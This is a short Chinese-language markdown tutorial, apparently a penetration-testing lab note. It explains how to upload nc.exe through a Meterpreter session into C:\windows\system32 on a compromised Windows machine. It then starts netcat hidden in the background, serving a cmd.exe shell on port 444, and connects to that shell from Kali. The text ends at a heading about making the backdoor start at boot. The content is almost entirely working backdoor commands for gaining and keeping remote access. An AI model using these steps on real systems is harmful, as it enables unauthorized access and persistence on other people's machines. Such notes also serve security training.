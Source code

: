 ## 通过meterpreter上传nc后门

### nc是啥？

> * 利用nc工具，nc工具本来是网络调试的
> 
> * 功能强，体积小巧，常用于木马
> 
> * nc像telnet、ssh一样，能反弹shell
> 
> * 新版nc是nmap的一个子工具

### 上传nc

```bash
upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32\\
# \\是\的转义字符，目标路径为c:\windows\system32\nc.exe
```

## 开启nc，连接测试

### 启动nc

```batch
start /min "" c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe
netstat /an
rem 验证nc是否启动
ctrl + C
rem 退出cmd
rem 最小化启动进程
rem ""标题为空
rem c:\windows\system32\nc.exe 启动nc进程
rem 后边是参数
rem L listening监听，d detach分离也就是后台运行，p port端口444
rem nc把cmd反弹回来
rem 或者
rem c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe
rem 这样当前cmd会卡在nc监听，连接成功后才会退出
rem ctrl + z background channel 2 ，挂起shell
rem channel -i 2
rem interact 返回shell
rem ctrl + c terminate channel 2，中结shell 
```

### 连接nc

```bash
# 使用Kali普通zsh
nc 172.20.0.7 444
```

## 设置nc开机自启
